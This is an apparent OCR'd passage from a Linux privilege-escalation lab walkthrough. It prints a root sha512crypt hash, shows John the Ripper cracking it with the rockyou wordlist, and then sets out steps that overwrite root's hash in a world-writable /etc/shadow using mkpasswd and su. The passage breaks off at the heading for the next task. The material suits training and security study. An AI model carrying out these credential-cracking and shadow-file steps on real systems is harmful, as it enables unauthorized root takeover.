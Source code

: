 ```jsx
root's password hash: $6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0
```

### John

---

```jsx
~/Desktop# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:00 DONE (2021-09-08 05:19) 1.388g/s 2133p/s 2133c/s 2133C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
Desktop#
```

# Task 4 Weak File Permissions - Writable /etc/shadow

---

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-writable:

```jsx
ls -l /etc/shadow
```

Generate a new password hash with a password of your choice:

```jsx
mkpasswd -m sha-512 newpasswordhere
```

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

```jsx
su root
```

# Task 5 Weak File Permissions - Writable /etc/passwd

---
